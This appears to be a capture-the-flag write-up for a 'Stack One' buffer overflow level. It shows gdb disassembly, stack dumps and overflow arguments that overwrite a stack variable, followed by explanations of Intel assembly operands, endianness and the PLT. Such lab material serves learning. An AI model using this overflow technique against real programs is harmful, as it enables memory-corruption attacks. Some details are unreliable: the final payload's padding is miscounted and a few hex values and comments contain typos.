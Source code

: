 <h3 style="text-align:center" dir="rtl">بسم الله الرحمن الرحيم </h3>

# Stack One
This challenge is same as stack zero but with one modification. We need to overflow the buffer to write a specific value to `changeme` which is `0x496c5962`. `0x496c5962` is the ascii representation of "IlYb".
- Compile the source code and run gdb
```bash
gcc -g stack-one.c -o stack-one
gdb stack-one
```
- disassemble main
```bash
(gdb)disassemble main
Dump of assembler code for function main:
   0x00005555555551c9 <+0>:     endbr64 
   0x00005555555551cd <+4>:     push   rbp
   0x00005555555551ce <+5>:     mov    rbp,rsp
   0x00005555555551d1 <+8>:     sub    rsp,0x60
   0x00005555555551d5 <+12>:    mov    DWORD PTR [rbp-0x54],edi ; argc
   0x00005555555551d8 <+15>:    mov    QWORD PTR [rbp-0x60],rsi ;argv
   0x00005555555551dc <+19>:    mov    rax,QWORD PTR fs:0x28 
   0x00005555555551e5 <+28>:    mov    QWORD PTR [rbp-0x8],rax
   0x00005555555551e9 <+32>:    xor    eax,eax
   0x00005555555551eb <+34>:    lea    rax,[rip+0xe16] ; address of BANNER       # 0x555555556008
   0x00005555555551f2 <+41>:    mov    rdi,rax
   0x00005555555551f5 <+44>:    call   0x5555555550a0 <puts@plt> ; print welcome message
   0x00005555555551fa <+49>:    cmp    DWORD PTR [rbp-0x54],0x1 ; check if argc = 1
   0x00005555555551fe <+53>:    jg     0x555555555219 <main+80> ; jump if argc > 1
   0x0000555555555200 <+55>:    lea    rax,[rip+0xe49]  ; Load error message      # 0x555555556050
   0x0000555555555207 <+62>:    mov    rsi,rax ; copy error message to rsi
   0x000055555555520a <+65>:    mov    edi,0x1
   0x000055555555520f <+70>:    mov    eax,0x0
   0x0000555555555214 <+75>:    call   0x5555555550b0 <errx@plt> ; call error function and terminat the program
   0x0000555555555219 <+80>:    mov    DWORD PTR [rbp-0x10],0x0 ; changesme = 0
   0x0000555555555220 <+87>:    mov    rax,QWORD PTR [rbp-0x60] ; load argv to rax
   0x0000555555555224 <+91>:    add    rax,0x8
   0x0000555555555228 <+95>:    mov    rdx,QWORD PTR [rax] : move rax to rdx
   0x000055555555522b <+98>:    lea    rax,[rbp-0x50] ; load buffer to rax
   0x000055555555522f <+102>:   mov    rsi,rdx
   0x0000555555555232 <+105>:   mov    rdi,rax
   0x0000555555555235 <+108>:   call   0x555555555090 <strcpy@plt>
   0x000055555555523a <+113>:   mov    eax,DWORD PTR [rbp-0x10] ;load changeme to eax
   0x000055555555523d <+116>:   cmp    eax,0x496c5962 ; compare changeme with 0x496x5962
   0x0000555555555242 <+121>:   jne    0x555555555255 <main+140> ; jump if changme != 0x496x5962 
   0x0000555555555244 <+123>:   lea    rax,[rip+0xe3d]  ; load address of success string       # 0x555555556088
   0x000055555555524b <+130>:   mov    rdi,rax
   0x000055555555524e <+133>:   call   0x5555555550a0 <puts@plt> ; print success string
   0x0000555555555253 <+138>:   jmp    0x55555555526e <main+165> ; jump to end
   0x0000555555555255 <+140>:   mov    eax,DWORD PTR [rbp-0x10] ; mov value of changeme
   0x0000555555555258 <+143>:   mov    esi,eax
   0x000055555555525a <+145>:   lea    rax,[rip+0xe6f]    ; load address of unsuccess string    # 0x5555555560d0
   0x0000555555555261 <+152>:   mov    rdi,rax
   0x0000555555555264 <+155>:   mov    eax,0x0
   0x0000555555555269 <+160>:   call   0x5555555550c0 <printf@plt> 
   0x000055555555526e <+165>:   mov    edi,0x0
   0x0000555555555273 <+170>:   call   0x5555555550d0 <exit@plt>
```
- We need to overflow the buffer to overwrite changeme to `0x496x5962`.Set a break point after strcpy call.
```bash
(gdb)break *0x000055555555523a
(gdb)run AAAABBBBCCCCDDDDEEEE
```
- Examine the stack
```bash
(gdb) x/20wx ($rbp - 0x50)
0x7fffffffd750: 0x41414141      0x42424242      0x43434343      0x44444444
0x7fffffffd760: 0x45454545      0x00007f00      0x01000000      0x00000101
0x7fffffffd770: 0x00000002      0x00000000      0xbfebfbff      0x00000000
0x7fffffffd780: 0xffffdd09      0x00007fff      0x00000064      0x00000000
0x7fffffffd790: 0x00000000      0x00000000      0x652ab000      0x0a4e119f
```
- The string is copied to `buffer`. Now we need to overflow to `changeme` and write the string `IlYb` in it.
```bash
(gdb) run AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPIlYb
(gdb) x/20wx ($rbp - 0x50)
0x7fffffffd720: 0x41414141      0x42424242      0x43434343      0x44444444
0x7fffffffd730: 0x45454545      0x46464646      0x47474747      0x48484848
0x7fffffffd740: 0x49494949      0x4a4a4a4a      0x4b4b4b4b      0x4c4c4c4c
0x7fffffffd750: 0x4d4d4d4d      0x4e4e4e4e      0x4f4f4f4f      0x50505050
0x7fffffffd760: 0x62596c49      0x00000000      0xeef20300      0x348bc308
```
- `changeme` data is in the address  0x7fffffffd760 to 0x7fffffffd763 but we see `IlYb` is reversed because of little endian byte ordering(Detailed explaination at the end) so we need to reverse the string to `bYlI` to pass the if statment.
```bash
(gdb)run AABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPbYlI
```

## Explain Things I Encounter in The Level
### Size Perfixes Used With Memory Operands in Intel Assembly:
- `BYTE PTR`: indicates an 8-bit value
- `WORD PTR`: indicates a 16-bit value
- `DWORD PTR`: indicates a 32-bit value
- `QWORD PTR`: indicates a 64-bit value
- `XMMWORD PTR`: indicates a 128-bit value (used with the SSE2 instruction set).
<br/>
The size prefix is used to specify the size of the memory operand being accessed, and it must match the size of the destination register or the size of the data being moved.

### Meaning of [] in `mov` or `lea` instruction:
In Intel assembly language, the brackets around a register or memory operand indicate that the value is being used as an address. When an instruction uses a memory operand in this way, it indicates that the instruction is accessing the value stored at the memory location pointed to by the address.For example, the following c code.
```c
int x = 10;
// mov     DWORD PTR [rbp-16], 10 ; mov 10 to memory address stored in rbp-12
int* ptr = &x;
//lea     rax, [rbp-16] ; load the memory address of RBP-16 to RAX
// RAX = &x
//mov     QWORD PTR [rbp-8], rax ; store 64-bit address of &x at memory RBP-8
// RBP-8 = RAX
int c = *ptr;
//mov     rax, QWORD PTR [rbp-8] ; store the 64-bit address stored at RBP-8 to RAX
// RAX = RBP-8 
//mov     eax, DWORD PTR [rax] ; store the 32-bit data pointed to by RAX to EAX
// EAX = *RAX
//mov     DWORD PTR [rbp-12], eax ; store EAX to the address stored at RBP-12
// RBP - 12 =  RAX
```
### Little Endian vs Big Endian:
Little endian and big endian are terms used to describe the order in which bytes are stored in memory.Little endian refers to system in which the least significant byte (LSB) is stored at the lowest memory address, and the most significant byte (MSB) is stored at the highest memeory address. <br/>
For example, consider the following 32-bit integer value stored in memory:
```
0x12345678
78 is the LSB
12 is the MSB
```
In a little endian system, this value would be stored in memory as follows:
```
Address  Value
-------  -----
0x1000   0x78
0x1001   0x56
0x1002   0x34
0x1003   0x12
```
In a big endian system, this value would be stored in memory as follows:
```
Address  Value
-------  -----
0x1000   0x12
0x1001   0x34
0x1002   0x56
0x1003   0x78
```
The MSB stored at the lowest memory address, and the LSB stored at  highest memory address.<br/>
Little endian is used on some computer architectures, such as x86, as the default byte order for storing multi-byte values in memory. It is also used by some network protocols for storing multi-byte values in packets.
<br/>
It is importent to consider the endianness of a system when working with mutli-byte values, as the order in which the bytes are stored can affect the way the values are interpreted.For example, a value that is stored in memory as 0x12345678 on a little endian system may be interpreted as 0x78563412 on a big endian system.
### What is the `@plt` Suffix After Function Name in `call` instruction ?
The @plt suffix indicates that the function is being called through the Procedure Linkage Table (PLT).
<br/>
The Procedure Linkage Table (PLT) is a mechanism used in programs compiled for ELF (Executable and Linking Format) platforms, such as Linux, to provide a level of indirection when calling external functions.
<br/>
Here's a summary of how the PLT works:

1. When a program is compiled, the `linker` generates a PLT for each external function that is called in the program. The PLT consists of a series of entries, each of which corresponds to a specific external function.

2. When the program is loaded into memory, the PLT entries are initialized to point to a small piece of code called the "PLT stub."

3. When the program needs to call an external function, it will call the corresponding entry in the PLT instead of calling the function directly. This will transfer control to the PLT stub for the function.

4. The PLT stub will look up the actual address of the function and jump to it. This allows the program to execute without needing to know the addresses of the external functions it calls until they are actually needed.

